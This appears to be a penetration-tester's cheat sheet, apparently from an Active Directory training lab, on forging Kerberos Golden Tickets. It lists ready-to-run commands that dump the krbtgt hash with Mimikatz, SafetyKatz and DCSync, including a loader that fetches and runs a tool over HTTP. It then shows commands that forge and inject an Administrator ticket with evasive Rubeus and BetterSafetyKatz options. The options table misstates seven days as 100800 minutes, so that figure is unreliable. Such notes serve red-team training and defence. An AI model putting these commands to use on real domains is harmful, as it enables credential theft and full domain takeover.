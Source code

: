 # Golden Ticket

Golden ticket is signed and encrypted by the hash of krbtgt account which makes it a valid TGT ticket.

Using Golden ticket can be used to impersonate any user with any privileges.

## Obtain krbtgt hash

There are multiple ways to get the krbtgt account hash

```powershell
# Execute on DC as Domain Admin
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
# With SafetyKatz
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-lsa /patch" "exit"

# DCSync to get AES keys
# Needs Domain admin or Replication Rights
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```

Use `klist` on any machine to check tickets available and `klist purge` to remove all of them. Use these from **Rubeus** module for OPsec safe.

## Create The Ticket

{% code overflow="wrap" %}
```powershell
# Forge a Golden Ticket with attributes similar to normal TGT. Run in a new cmd
Rubeus.exe evasive-golden /aes256:<krbtgt_token> /sid:<sid_of_current_domain> /ldap /user:Administrator /printcmd

# Another way
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<domain> /sid:<user_sid> /aes256:<aes_key> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"

dir \\dcorp-dc\c$ # check if worked
```
{% endcode %}

<table><thead><tr><th width="318">Options</th><th width="431"></th></tr></thead><tbody><tr><td>kerberos::golden</td><td>Name of the module</td></tr><tr><td>/User:Administrator</td><td>Username for which the TGT is generated</td></tr><tr><td>/domain:</td><td>Domain FQDN</td></tr><tr><td>/sid:</td><td>SID of the domain</td></tr><tr><td>/aes256:</td><td>AES256 keys of the krbtgt account</td></tr><tr><td>/id:500 /groups:512</td><td>Optional User and Group RID</td></tr><tr><td>/ptt or /ticket</td><td>ptt: inject ticket to current process<br>ticket: saves ticket to a file</td></tr><tr><td>/startoffset:0</td><td>Optional when the ticket is available in minutes.<br>Use negative for a ticket available from past and a larger number for future.</td></tr><tr><td>/endin:600</td><td>Optional ticket lifetime in minutes. (default <strong>10</strong> years)<br>The default AD setting is 10 hours = 600 minutes</td></tr><tr><td>/renewmax:10080</td><td>Optional ticket lifetime with renewal in minutes. (default is <strong>10</strong> years)<br>The default AD setting is 7 days = 100800</td></tr></tbody></table>
